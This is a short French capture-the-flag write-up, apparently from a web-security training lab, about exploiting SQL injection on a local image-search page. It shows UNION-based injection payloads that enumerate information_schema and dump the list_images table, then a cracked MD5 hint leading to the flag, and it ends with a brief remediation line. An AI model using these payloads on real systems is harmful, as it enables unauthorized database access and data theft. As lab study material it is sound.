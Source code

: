 sur http://192.168.99.102/?page=searchimg

Nous savons déjà comment lister les colonnes et les tables de la db:

```sql
1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns
```

un petit CMD + F d'image nous indique directement que la table à exploité est `list_images`:

dans la table list_images nous avons:
id
url
title
comment

la colonne `comment` etait un bon point de depart sur l'autre faille:

testons alors d'afficher les comment et le title:

```sql
1 AND 1 = 2 UNION ALL SELECT title, comment FROM list_images
```


```
"If you read this just use this md5 decode lowercase then sha256 to win this flag !"
```

```
1928e8083cf461a51303633093573c46 -> albatroz 
sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```


### Amelioration

Gerer les sqli, protegers les strings envoyer en request.